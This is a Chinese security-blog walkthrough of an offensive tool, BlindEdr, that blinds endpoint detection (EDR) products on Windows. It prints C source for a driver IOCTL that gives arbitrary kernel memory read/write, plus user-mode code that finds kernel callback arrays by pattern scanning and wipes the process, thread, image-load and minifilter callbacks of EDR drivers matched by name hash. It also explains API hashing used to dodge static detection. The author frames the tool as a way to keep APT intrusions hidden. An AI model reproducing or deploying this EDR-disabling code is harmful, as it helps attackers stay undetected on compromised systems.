










# 内核攻防-(2)致盲EDR-先知社区

> **来源**: https://xz.aliyun.com/news/16779  
> **文章ID**: 16779

---

项目地址

<https://github.com/k3lpi3b4nsh33/BlindEdr>

# 需求背景

在APT攻击中，使用驱动致盲EDR（Endpoint Detection and Response）的意义在于通过加载恶意或修改的驱动程序，直接操作内核数据结构，禁用或清除EDR的回调和监控机制，从而绕过安全检测。这种方法能够隐藏攻击行为、规避日志记录和实时响应，确保攻击活动在受害系统中悄无声息地进行，提高持久性和隐蔽性。

# 驱动解析

项目代码: <https://github.com/k3lpi3b4nsh33/rwdriver>

这个函数 `devctrl_RwMemory` 是一个典型的驱动层代码，通常用于设备驱动程序的 I/O 控制请求处理，特别是和内存读写操作相关的情况。

## 功能描述

在内核模式下执行内存读写操作，用于在同一进程内复制内存数据。

### 参数说明

* DeviceObject: 设备对象指针（未使用）
* irp: I/O请求包指针
* irpSp: IRP栈位置指针

### 主要流程

获取并验证系统缓冲区

验证内存操作参数（源地址、目标地址、大小）

* 执行内存复制操作
* 完成 IRP 请求

### 返回值

* 成功：STATUS\_SUCCESS
* 失败：STATUS\_INVALID\_PARAMETER 或 STATUS\_UNSUCCESSFUL

## 使用示例

通过设备 I/O 控制代码调用此函数，传入 MEMORY\_OPERATION 结构体，包含源地址、目标地址和复制大小。

```
NTSTATUS devctrl_RwMemory(PDEVICE_OBJECT DeviceObject, PIRP irp, PIO_STACK_LOCATION irpSp)
{
	UNREFERENCED_PARAMETER(DeviceObject);
	NTSTATUS status = STATUS_UNSUCCESSFUL;
	SIZE_T bytesTransferred = 0;

	// Get the system buffer and validate input parameters
	PVOID pBuffer = irp->AssociatedIrp.SystemBuffer;
	ULONG bufferLength = irpSp->Parameters.DeviceIoControl.InputBufferLength;

	if (!pBuffer || bufferLength < sizeof(MEMORY_OPERATION)) {
		status = STATUS_INVALID_PARAMETER;
		goto Exit;
	}

	// Cast buffer to our memory operation structure
	PMEMORY_OPERATION memOp = (PMEMORY_OPERATION)pBuffer;
	
	// Validate memory operation parameters
	if (!memOp->SourceAddress || !memOp->DestinationAddress || !memOp->Size) {
		status = STATUS_INVALID_PARAMETER;
		goto Exit;
	}

	// Get current process context
	PEPROCESS CurrentProcess = IoGetCurrentProcess();
	
	// Perform the memory copy operation
	status = MmCopyVirtualMemory(
		CurrentProcess,
		memOp->SourceAddress,
		CurrentProcess, 
		memOp->DestinationAddress,
		memOp->Size,
		KernelMode,  // Explicitly specify kernel mode
		&bytesTransferred
	);

Exit:
	// Set IRP completion status
	irp->IoStatus.Status = status;
	irp->IoStatus.Information = NT_SUCCESS(status) ? bufferLength : 0;
	IoCompleteRequest(irp, IO_NO_INCREMENT);
	
	return status;
}
```

### **可能的应用场景**

该函数实现了一种基于 IOCTL 的内存操作机制，这在驱动开发中有以下典型用途：

1. **内存读写工具**

* 用户模式程序通过 IOCTL 调用该函数，向驱动请求读写当前进程的特定内存区域。这通常用于开发调试工具或与进程交互的应用程序。

2. **内核态内存编辑**

* 函数内部调用了 `MmCopyVirtualMemory`，可以用于直接操作进程的虚拟内存空间。常见的用途包括：

* 调试器工具（读取或写入目标进程的内存）。
* 数据注入（在内存中写入特定的数据，比如游戏外挂、数据修改器等工具）。
* 内存复制操作的驱动辅助实现。

3. **反病毒软件或内存分析工具**

* 此代码也可以用于安全领域，例如反病毒引擎或内存分析工具，用于从特定进程中提取敏感信息。

​

# 驱动利用Exe解析

项目代码：<https://github.com/k3lpi3b4nsh33/BlindEdr>

## 项目结构

```
[项目根目录] BlindEdr/
├── Source Files/
│   ├── main.c                      # 主程序入口
│   ├── Common.c                    # 通用功能实现
│   ├── ApiHashing.c               	# API哈希相关功能
│   ├── Context.c                  	# 上下文管理
│   ├── EDRDetector.c             	# EDR检测器
│   └── DriverNameUtils.c         	# 驱动程序名称工具
│
├── BlindEDR/                     # EDR相关功能模块
│   ├── CallbackManager.c         # 回调管理器
│   ├── ObjectCallbackManager.c   # 对象回调管理
│   ├── RegistryCallbackManager.c # 注册表回调管理
│   └── FiilterCallbackManager.c  # 过滤器回调管理
│
├── Header Files/
│   ├── Common.h                 # 通用头文件
│   ├── Structs.h                # 结构定义
│   ├── RemoveCallBacks.h        # 回调移除功能
│   ├── Debug.h                  # 调试功能
│   ├── FunctionPointers.h       # 函数指针定义
│   ├── ApiHashing.h             # API哈希头文件
│   ├── IatCamo.h                # IAT伪装功能
│   └── Disclaimer.h             # 免责声明
│
├── Resource Files/              # 资源文件目录
│
└── Build Files/
    ├── BlindEdr.vcxproj         # Visual Studio项目文件
    ├── BlindEdr.vcxproj.filters # 项目筛选器配置
    └── x64/
        └── Release/
            └── BlindEdr.exe.recipe  # 生成配置文件
```

## 核心原理

所有操作的原理是：我已经能控制驱动的内存读写函数，通过这个函数去修改相关EDR内核数据结构的地址。

在 `Common.c`中，`DriverMemoryOperation` 这个函数是与驱动交互的关键函数。它是传入了一个结构体 `PMemOp`，然后在驱动中是用 `MmCopyVirtualMemory`这个进行操作。从R3的角度来说，我们就是用了一个`Memcpy`的函数进行操作，但是我们现在的`Memcpy`函数处于驱动层。

```
VOID DriverMemoryOperation(
	PVOID fromAddress,    // Source ptr
	PVOID toAddress,      // Target ptr
	size_t len,           // Length
	MEMORY_OPERATION opType)
{
	PBasic_INFO pbasic_info = GetContext();

	PMemOp req = NULL;
	DWORD bytesRet = 0;
	BOOL success = FALSE;

	HANDLE hDevice = GetContextHandle();
	PMemoryPatch ppt = GetPatchTable();

	// Backup kernel memory before write operations
	if (opType == MEMORY_WRITE && (UINT64)toAddress > 0xFFFF000000000000)
	{
		PMemOp bkreq = NULL;
		PMemoryPatch cpt = NULL;
		PCHAR pBackup = (PCHAR)calloc(len, 1);

		if (pBackup)
		{
			bkreq = (PMemOp)malloc(sizeof(MemOp));
			if (bkreq)
			{
				// Configure backup request
				bkreq->SourceAddress = toAddress;
				bkreq->Size = len;
				bkreq->DestinationAddress = pBackup;

				success = DeviceIoControl(hDevice, RW_MEM_CODE, bkreq,
					sizeof(MemOp), bkreq, sizeof(MemOp), &bytesRet, NULL);

				if (success)
				{
					// Update patch table
					cpt = (PMemoryPatch)malloc(sizeof(MemoryPatch));
					if (cpt)
					{
						cpt->pAddr = toAddress;
						cpt->szData = len;
						cpt->pData = pBackup;
						cpt->pNext = pbasic_info->PatchTable;
						pbasic_info->PatchTable = cpt;
					}
				}
				free(bkreq);
			}
			else {
				free(pBackup);
			}
		}
	}

	// Execute memory operation
	req = (PMemOp)malloc(sizeof(MemOp));
	if (req)
	{
		req->SourceAddress = fromAddress;
		req->Size = len;
		req->DestinationAddress = toAddress;

		success = DeviceIoControl(hDevice, RW_MEM_CODE, req,
			sizeof(MemOp), req, sizeof(MemOp), &bytesRet, NULL);

		if (!success) {
			CloseHandle(hDevice);
		}
		free(req);
	}
}
```

​

## API哈希动态获取

这个实现的主要目的和意义：

1. 反检测和反调试

* **避免在程序中直接存储 API 函数名称字符串**
* 规避静态分析和特征码检测
* 增加逆向分析的难度

2. 动态解析

* **使用哈希值代替明文字符串**
* 运行时动态计算和匹配 API 函数
* 绕过导入表（IAT）监控

首先先编写 CityHash的函数，我这里用了三个不同的哈希值进行计算分别是 `FIRST_HASH`、`SECOND_HASH`、`THIRD_HASH`

​

API 函数解析流程 `GetProcAddressH`

1. 遍历模块导出表
2. 计算每个导出函数名的哈希值
3. 与预定义哈希值比对
4. 处理转发函数情况
5. 返回匹配函数地址

​

模块句柄的获取 `GetModuleHandleH`

1. 支持内核模块和用户模块的处理
2. 使用 NtQuerySystemInformation 获取系统模块信息
3. 大小写不敏感的哈希匹配

具体是怎么使用，见`GetFuncAddressH`，在这里需要加载的是`FLTMGR.SYS`、`NTOSKRNL.exe`

EDR 解决方案是一个高级的终端安全工具，能够实时检测、响应和记录终端的安全事件。它通常依赖于文件系统的过滤功能来监控文件活动，并及时捕捉威胁。

**FLTMGR.SYS 的作用**：

* **文件操作监控**：EDR 通过使用 Windows 提供的文件系统过滤器框架（基于 `FLTMGR.SYS`），拦截文件的创建、读取、修改和删除等操作。比如，当恶意软件试图加密文件时，EDR 可以实时监测和阻止。
* **行为记录**：EDR 使用 `FLTMGR.SYS` 提供的功能记录终端上的文件活动日志，包括文件路径、修改时间、用户行为等，为威胁分析和回溯提供数据支持。
* **实时拦截**：基于过滤器驱动，EDR 能够在文件操作真正发生前拦截威胁操作（如未知程序写入文件或尝试修改系统文件）。

**NTOSKRNL.exe 的作用**

* `FLTMGR.SYS`：作为文件系统过滤管理器，与 `NTOSKRNL.EXE` 协同工作，处理文件操作请求。
* **驱动程序**：所有内核模式驱动程序都依赖 `NTOSKRNL.EXE` 提供的接口。
* **用户模式程序**：用户程序通过系统调用访问 `NTOSKRNL.EXE` 的功能（例如文件读写、网络通信）。

​

```
UINT64 GetFuncAddressH(IN UINT32 ModuleNameHash, IN UINT32 FuncNameHash)
{
    // Get kernel module base
    PVOID KBase = GetModuleBaseH(ModuleNameHash);
    if (!KBase) {
        return 0;
    }

    // Get user-mode module handle
    HMODULE hModule = NULL;
    HMODULE hKernel32 = GetModuleHandleH(kernel32dll_CH, FALSE);
    if (!hKernel32) {
        return 0;
    }

    // Load appropriate module
    if (ModuleNameHash == FLTMGRSYS_CH) {
        fnLoadLibraryExA pLoadLibraryEx = (fnLoadLibraryExA)GetProcAddressH(hKernel32, LoadLibraryExA_CH);
        if (pLoadLibraryEx) {
            hModule = pLoadLibraryEx("C:\windows\system32\drivers\FLTMGR.SYS", 
                                   NULL, DONT_RESOLVE_DLL_REFERENCES);
        }
    } else if(ModuleNameHash == NTOSKRNLEXE_CH){
        fnLoadLibraryA pLoadLibrary = (fnLoadLibraryA)GetProcAddressH(hKernel32, LoadLibraryA_CH);
        if (pLoadLibrary) {
            hModule = pLoadLibrary("ntoskrnl.exe");
        }
    }

    if (!hModule) {
        return 0;
    }

    // Get and calculate final function address
    VOID* ProcAddr = GetProcAddressH(hModule, FuncNameHash);
    return ProcAddr ? ((UINT64)KBase + ((UINT64)ProcAddr - (UINT64)hModule)) : 0;
}
```

这段代码实现了一个智能的内核函数地址解析机制。首先获取目标内核模块的实际基地址，然后通过哈希匹配从 `kernel32.dll` 中获取 `LoadLibraryExA`/`LoadLibraryA` 函数。对于 `FLTMGR.SYS`，使用 `LoadLibraryExA` 并指定 `DONT_RESOLVE_DLL_REFERENCES` 标志加载驱动文件作为模板；对于 `ntoskrnl.exe`，则使用普通的 `LoadLibraryA` 加载。通过计算目标函数在用户态加载的模块中的偏移，再加上实际的内核模块基地址，最终得到函数在内核空间中的真实地址。

这种方法避免了直接读取内核内存，同时通过哈希隐藏了敏感的函数名和模块名。

​

各EDR特征

## 必要函数

### IsEDRHash

IsEDRHash 的基本原理是通过对驱动程序名称（DriverName）的哈希值或名称前缀匹配来检测特定的安全防护软件驱动程序（如杀毒软件或EDR工具）。

​

**哈希值匹配**：

* 将驱动程序名称转换为一个唯一的哈希值。
* 与内置的已知安全驱动程序的哈希列表（`AVDriverHashes`）逐一比较。
* 如果匹配，则说明该驱动程序属于已知的安全软件，返回 `TRUE`。

**字符串匹配**：

* 检查驱动程序名称是否包含某些已知的字符串（`PrefixKESDriver`）。
* 如果名称中包含这些特定前缀，也返回 `TRUE`。

### FindPattern

1. 在内存中按字节逐地址扫描，寻找符合指定模式的指令或数据结构。
2. 模式匹配由外部定义的验证函数（如 ValidateLeaPattern、ValidateCallJmpPattern 等）提供逻辑。
3. 适配不同的模式和用途，例如：

寻找特定的汇编指令（如 LEA 或 CALL）。

定位内核中的特定回调函数或数据结构。

```
// Find pattern in memory
UINT64 FindPattern(UINT64 startAddress, const PATTERN_SEARCH* pattern, int maxCount) {
    if (!pattern || pattern->length == 0) {
        return 0;
    }

    BYTE* buffer = (BYTE*)malloc(pattern->length);
    if (!buffer) {
        return 0;
    }

    int count = 0;
    UINT64 currentAddr = startAddress;

    while (count++ < maxCount) {
        // Read memory at current address
        DriverMemoryOperation((VOID*)currentAddr, buffer, pattern->length, MEMORY_WRITE);

        if (pattern->validate) {
            if (pattern->validate(buffer)) {
                free(buffer);
                return currentAddr;
            }
        }

        currentAddr++;
    }

    free(buffer);
    return 0;
}

```

1. **验证输入参数**：

* 如果传入的 `pattern` 是空指针，或者其长度为 `0`，则直接返回 `0`（表示未找到）。
* 同时，分配一块内存缓冲区（大小为 `pattern->length`），用于存储从目标地址读取的内存内容。

```
BYTE* buffer = (BYTE*)malloc(pattern->length);
if (!buffer) {
    return 0;
}
```

2. **初始化搜索状态**：

* `currentAddr`：从 `startAddress` 开始。
* `count`：控制循环次数。

```
UINT64 currentAddr = startAddress;
int count = 0;
```

3. **逐地址搜索**：

* 循环最多 `maxCount` 次，每次从当前地址读取长度为 `pattern->length` 的内存内容到缓冲区 `buffer` 中：

```
DriverMemoryOperation((VOID*)currentAddr, buffer, pattern->length, MEMORY_WRITE);
```

`DriverMemoryOperation` 是一个自定义函数，用于从指定的内存地址读取数据。

4. **调用验证函数**：

* 如果模式结构中提供了验证函数 `pattern->validate`，就将读取到的内存数据（`buffer`）传入验证函数：

```
if (pattern->validate) {
    if (pattern->validate(buffer)) {
        free(buffer);
        return currentAddr;
    }
}
```

* 如果验证函数返回 `TRUE`，表示当前地址的数据匹配目标模式，返回当前地址。

5. **继续搜索**：

* 如果当前地址的数据不匹配目标模式，则将地址递增 `1`，继续搜索下一地址的内容：

```
currentAddr++;
```

6. **释放资源**：

* 如果搜索到 `maxCount` 次仍未找到匹配的模式，释放分配的内存并返回 `0`，表示未找到：

```
free(buffer);
return 0;
```

#### 示例：匹配 `LEA RAX, [RIP+Offset]` 指令

假设内存内容如下：

```
Address: 0x1000  | 0x48 0x8D 0x05 0xA0 0x00 ...
Address: 0x1001  | 0x48 0x8D 0x05 0xB0 0x00 ...
```

调用：

```
PATTERN_SEARCH leaPattern = {
    .length = 3,
    .validate = ValidateLeaRipPattern,
    .name = "LEA_RIP"
    };
UINT64 result = FindPattern(0x1000, &leaPattern, 100);
```

执行步骤：

1. `DriverMemoryOperation` 依次读取 `0x1000`、`0x1001` 的 3 个字节数据到 `buffer`。
2. 调用 `ValidateLeaRipPattern` 检查：

* 地址 `0x1000` 的内容 `0x48 0x8D 0x05` 匹配。
* 返回地址 `0x1000`。

结果：

```
result = 0x1000
```

### CalculateOffset

**因为基本所有数据都是小端存储，所以我们要从后面往前面读取。**

```
UINT64 CalculateOffset(UINT64 address, int startOffset, int count) {
	BYTE* buffer = (BYTE*)malloc(1);
	UINT64 offset = 0;

	for (int i = count, k = 24; i > startOffset; i--, k -= 8) {
		DriverMemoryOperation((VOID*)(address + i), buffer, 1, MEMORY_WRITE);
		offset = ((UINT64)*buffer << k) + offset;
	}

	if ((offset & SIGN_EXTENSION_MASK) == SIGN_EXTENSION_MASK) {
		offset |= FULL_EXTENSION_MASK;
	}

	return offset;
}
```

**函数输入参数**：

* `UINT64 address`：基地址，表示要从哪里开始读取数据。
* `int startOffset`：起始偏移，用于定义从哪个字节开始读取数据。
* `int count`：要读取的字节数量，表示读取多少字节作为偏移量。

**主要功能步骤**：

* **循环读取字节数据**：

* 从指定内存地址的某一偏移位置开始逐字节读取数据（`DriverMemoryOperation` ）。
* 按照字节顺序将每个字节拼接成一个 64 位偏移量。

* **符号扩展**：

* 如果计算出的偏移量的高位包含符号位（`SIGN_EXTENSION_MASK`），则对该值进行符号扩展（适用于负偏移量）。

```
if ((offset & SIGN_EXTENSION_MASK) == SIGN_EXTENSION_MASK) {
    offset |= FULL_EXTENSION_MASK;
}
```

* **返回结果**：

* 返回最终计算的偏移量（`offset`）。

#### 代码逻辑示例

**内存内容**：

```
Address: 0x1000 | 0x10 | 0x20 | 0x30 | 0x40
```

**调用**：

```
UINT64 offset = CalculateOffset(0x1000, 1, 3);
```

从地址 `0x1000 + 3` 开始逐字节读取，依次读取 `0x40`, `0x30`, `0x20`。

* 拼接成偏移量：
* `offset = (0x40 << 24) + (0x30 << 16) + (0x20 << 8)`。

符号扩展：

* 如果最高位为符号位（负数），则扩展符号位。

```
offset = 0x40000000 + 0x00300000 + 0x00002000
       = 0x40302000
```

这个是 32位或者是64位的offset（如果是64位会进行符号补充）

之后我们得到了 offset之后就可以获得 base+offset = targetaddr

```
目标地址 = 基地址 + offset
```

## 清除核心回调内核

### CallbackManager.c

`CallbackManager.c` 实现了 Windows 内核回调的检测、管理和清理功能，主要用于处理进程创建、线程创建和镜像加载等系统回调。

这里删除的回调函数有三种

1. 进程创建回调：

哈希：PsSetCreateProcessNotifyRoutine\_CH

监控进程创建和终止

2. 线程创建回调：

哈希：PsSetCreateThreadNotifyRoutine\_CH

监控线程创建和终止

3. 镜像加载回调：

哈希：PsSetLoadImageNotifyRoutine\_CH

监控DLL和驱动加载

​

#### 回调处理函数（`ProcessDriverCallback`）：

* **作用**：检查特定驱动回调函数是否与 EDR 相关，若是，则清除回调。
* **实现细节**：

* 计算内存地址，读取回调信息。
* 验证驱动程序名称，判断是否为已知的 EDR 驱动（使用 `IsEDRHash` 方法）。
* 通过内核内存写入操作（`DriverMemoryOperation`），清除回调。

#### 获取回调数组地址（`GetPspNotifyRoutineArrayH`）：

* **作用**：定位 `PspNotifyRoutineArray` 的地址，这是存储内核回调函数的数组。
* **实现细节**：

* 根据 Windows 版本判断如何解析地址。
* 使用模式匹配（`FindPattern`）和指令偏移（`CalculateOffset`）提取目标地址。
* 兼容不同版本的 Windows（如 Win7/Win10）。

#### 打印和清除回调（`PrintAndClearCallBack`）：

* **作用**：扫描回调数组中的每个条目，打印其相关信息，并清除 EDR 回调。
* **实现细节**：

* 遍历回调数组，按索引逐一读取回调地址。
* 通过位操作解析回调函数的实际地址。
* 验证驱动程序名称，若是 EDR 驱动，清除其回调条目。

#### 清除多种回调（`ClearThreeCallBack`）：

* **作用**：批量处理与进程、线程和模块加载相关的三种回调。采用结构体加循环的方法进行清除回调函数。
* **实现细节**：

* 定义多个回调类型（如 `PsSetCreateProcessNotifyRoutine`）。
* 使用 `GetPspNotifyRoutineArrayH` 获取各回调的数组地址。
* 调用 `PrintAndClearCallBack` 逐一清理回调。

```
VOID ClearThreeCallBack() {
	// Define callback type structure
	struct CallbackInfo {
		UINT32	routineNameHash;
		const CHAR* routineName;
		INT64 address;
	};
	
	// Define all callbacks to be processed
	struct CallbackInfo callbacks[] = {
		{PsSetCreateProcessNotifyRoutine_CH,"PsSetCreateProcessNotifyRoutine", 0},
		{PsSetCreateThreadNotifyRoutine_CH,	"PsSetCreateThreadNotifyRoutine", 0},
		{PsSetLoadImageNotifyRoutine_CH,	"PsSetLoadImageNotifyRoutine", 0}
	};
	
	// Get and process all callbacks
	for (int i = 0; i < sizeof(callbacks) / sizeof(callbacks[0]); i++) {
		callbacks[i].address = GetPspNotifyRoutineArrayH(callbacks[i].routineNameHash);
		
		if (callbacks[i].address) {
			PrintAndClearCallBack(callbacks[i].address, (CHAR*)callbacks[i].routineName);
		} else {
			printf("Failed to obtain %s callback address.
", callbacks[i].routineName);
		}
	}
}
```

### FilterCallBackManager.c

#### 函数 1：`RemoveInstanceCallback`

**功能概述**

1. 遍历和处理 `FLT_FILTER` 对应的所有 `FLT_INSTANCE` 实例，清除其关联的回调节点。
2. 每个 `FLT_INSTANCE` 可能关联多个回调节点（Callback Nodes），通过清除这些节点，可以移除某些 EDR 检测的挂钩机制。

**核心逻辑解析**

1. **初始化偏移量**

* 通过操作系统版本号（`dwMajor` 和 `dwBuild`），动态确定 MiniFilter 数据结构中的关键偏移量：

* `instanceListOffset`：`FLT_FILTER` 中实例列表的偏移。
* `instanceOffset`：实例结构中下一实例的偏移。
* `CallBackOffset`：回调节点数组的偏移。

如果这些偏移量未能成功获取，则直接退出。

2. **遍历实例列表**

* 从 `FLT_FILTER` 中读取首个实例地址，循环遍历整个实例链表：

* 通过读取实例列表指针（`FilterInstanceAddr`），计算实例链表的节点数（`count`）。
* 依次访问每个实例并处理其内容。

3. **处理回调节点**

* 遍历每个实例的回调节点数组（以 `CallBackOffset` 为基准）：

* 如果某个回调节点存在（不为 0），则：

* 打印回调节点的地址。
* 清除该回调节点的内存值（写入 `0`），实现回调清除。

4. **完成处理**

* 处理完所有节点后，遍历到下一个实例，直到链表末尾。

#### 函数 2：`ClearMiniFilterCallBack`

**功能概述**

* 枚举系统中所有 MiniFilter 驱动，并对其进行回调清理。
* 包括 `FLT_FILTER` 和 `FLT_VOLUMES` 数据结构的回调遍历和清除。

